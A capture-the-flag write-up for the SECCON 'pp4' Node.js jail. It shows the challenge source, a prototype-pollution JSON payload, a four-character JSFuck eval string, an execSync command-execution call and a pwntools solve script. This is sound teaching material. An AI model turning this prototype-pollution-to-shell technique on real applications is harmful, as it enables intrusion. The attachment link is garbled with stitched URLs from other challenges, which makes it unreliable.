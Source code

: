# pp4 - Jail

By: Lyndon

> Let's enjoy the polluted programming💥
>
> `nc pp4.seccon.games 5000`
> 
> [`pp4.tar.gz`](https://storage.googleapis.com/hitcon-ctf-2024-qual-attachment/brokenshare/brokenshare-4af73c97cbac939d9eade6a32503050a7403ba47.tar.gz](https://score.quals.seccon.jp/api/download?key=quals202413%2Fdual_summon.tar.gz](https://score.quals.seccon.jp/api/download?key=quals202413%2Fpp4.tar.gz)))
>
- Author: krk
- Solves: 41

## Challenge

In `index.js`:

```js
#!/usr/local/bin/node
const readline = require("node:readline/promises");
const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout,
});

const clone = (target, result = {}) => {
  for (const [key, value] of Object.entries(target)) {
    if (value && typeof value == "object") {
      if (!(key in result)) result[key] = {};
      clone(value, result[key]);
    } else {
      result[key] = value;
    }
  }
  return result;
};

(async () => {
  // Step 1: Prototype Pollution
  const json = (await rl.question("Input JSON: ")).trim();
  console.log(clone(JSON.parse(json)));

  // Step 2: JSF**k with 4 characters
  const code = (await rl.question("Input code: ")).trim();
  if (new Set(code).size > 4) {
    console.log("Too many :(");
    return;
  }
  console.log(eval(code));
})().finally(() => rl.close());
```

## Solution

This was a simple challenge with two components: a prototype pollution gadget and a JSFuck jail with 4 unique characters.

The generic JSFuck exploit payload typically has this form: `[]['constructor']['constructor']('PAYLOAD')()`. However, we are only given 4 unique characters,
which is not enough to generate the necessary strings.

However, we can do some weird things when given the ability to modify JavaScript objects. For example, we can "overload" the logic for indexing an object ike this:

```js
{}.constructor.prototype['a'] = 1;
console.log([]['a'])  // prints 1
```

This turns out to be a very useful primitive. In particular, we can assign `{}[''] = 'PAYLOAD'`, and then use that payload string in JSFuck via `[][[]]`
(note that the `[]` gets coerced to `''` when indexing). The corresponding prototype pollution payload looks like this:
```
{"":{"constructor":{"prototype":{"":"console.log(1)"}}}}
```

This almost solves the challenge, but we also need to somehow store the other `'constructor'` string. I ended up solving it by storing the payload string as the *key*,
and then accessing it in JSFuck becomes `[][[][[]]]`. From there, we can easily obtain a shell by importing `child_process` and calling the `execSync` method:

```js
console.log(process.mainModule.require('child_process').execSync('cat /flag-1863aa693df962ff8433c6b227d63dc0.txt')+'')
```

## Solve

```py
from pwn import *
import json

# io = process(['node', 'index.js'])
io = remote('pp4.seccon.games', 5000)

code = "console.log(process.mainModule.require('child_process').execSync('cat /flag-1863aa693df962ff8433c6b227d63dc0.txt')+'')"
data = {"": {"constructor": {"prototype": {code: "constructor", "": code}}}}
payload = '[][[][[][[]]]][[][[][[]]]]([][[]])()'

io.sendlineafter(b'Input JSON: ', json.dumps(data).encode())
io.sendlineafter(b'Input code: ', payload.encode())
io.interactive()
```
